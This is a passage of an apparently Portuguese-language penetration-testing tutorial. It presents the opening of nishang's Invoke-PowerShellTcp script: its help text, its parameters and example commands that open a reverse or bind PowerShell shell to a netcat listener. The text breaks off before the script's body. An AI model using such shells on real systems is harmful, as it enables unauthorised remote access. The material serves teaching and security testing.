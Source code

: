 O one-liner que acabamos de examinar juntos também pode ser executado na forma de um script PowerShell ( `.ps1`). Podemos ver um exemplo disso visualizando o código-fonte abaixo. Este código-fonte é parte do projeto [nishang :](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
```